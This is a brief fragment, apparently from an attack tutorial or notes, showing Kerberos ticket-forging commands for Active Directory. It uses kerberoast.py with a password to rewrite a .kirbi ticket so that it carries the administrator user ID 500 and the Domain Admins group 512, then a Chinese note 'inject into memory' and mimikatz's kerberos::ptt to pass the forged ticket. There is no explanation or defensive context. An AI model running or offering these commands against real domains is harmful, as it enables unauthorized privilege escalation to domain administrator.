 	>python kerberoast.py -p Password123 -r file.kirbi -w new.kirbi -u 500
	>python kerberoast.py -p Password123 -r file.kirbi -w new.kirbi -g 512
	注入内存、
	>kerberos::ptt new.kirbi
